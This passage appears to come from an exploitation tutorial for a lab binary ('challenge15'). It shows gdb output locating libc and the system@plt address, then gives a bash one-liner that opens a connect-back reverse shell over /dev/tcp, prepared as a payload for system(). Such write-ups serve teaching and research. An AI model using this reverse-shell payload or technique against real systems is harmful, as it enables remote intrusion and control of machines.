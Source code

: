 Here we just print the address of system in the memory mapped LIBC-2.23.so:
```
gdb-peda$ vmmap
Start              End                Perm      Name
0x00400000         0x00401000         r-xp      /root/challenges/challenge15/challenge15
0x00601000         0x00602000         r--p      /root/challenges/challenge15/challenge15
0x00602000         0x00603000         rw-p      /root/challenges/challenge15/challenge15
0x00603000         0x00624000         rw-p      [heap]
0x00007ffff7a0e000 0x00007ffff7bce000 r-xp      /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7bce000 0x00007ffff7dcd000 ---p      /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dcd000 0x00007ffff7dd1000 r--p      /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd1000 0x00007ffff7dd3000 rw-p      /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd3000 0x00007ffff7dd7000 rw-p      mapped
0x00007ffff7dd7000 0x00007ffff7dfd000 r-xp      /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7fee000 0x00007ffff7ff1000 rw-p      mapped
0x00007ffff7ff6000 0x00007ffff7ff8000 rw-p      mapped
0x00007ffff7ff8000 0x00007ffff7ffa000 r--p      [vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 r-xp      [vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 r--p      /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffd000 0x00007ffff7ffe000 rw-p      /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffe000 0x00007ffff7fff000 rw-p      mapped
0x00007ffffffde000 0x00007ffffffff000 rw-p      [stack]
0xffffffffff600000 0xffffffffff601000 r-xp      [vsyscall]
```

I also inserted a (useless) system() function in the main() function. We can deduct
the address from the disassembly:

```
gdb-peda$ disas main
Dump of assembler code for function main:
   0x0000000000400a95 <+0>:     push   rbp
   0x0000000000400a96 <+1>:     mov    rbp,rsp
   0x0000000000400a99 <+4>:     sub    rsp,0x160
   0x0000000000400aa0 <+11>:    mov    DWORD PTR [rbp-0x154],edi
   0x0000000000400aa6 <+17>:    mov    QWORD PTR [rbp-0x160],rsi
   0x0000000000400aad <+24>:    mov    edi,0x400d0f
   0x0000000000400ab2 <+29>:    call   0x4007b0 <system@plt>
[...]
```

As we can see, the call instruction has a hardcoded address 0x4007b0 with the symbol system@plt.




## Shellcode

`system()` executes binary. We just use bash, and use a special bash oneliner to create a
connect-back shell:

```
shellcode = "0<&181-;exec 181<>/dev/tcp/127.0.0.1/1337;sh <&181 >&181 2>&181"
shellcode =  'bash -c "' + shellcode + '" #'
```
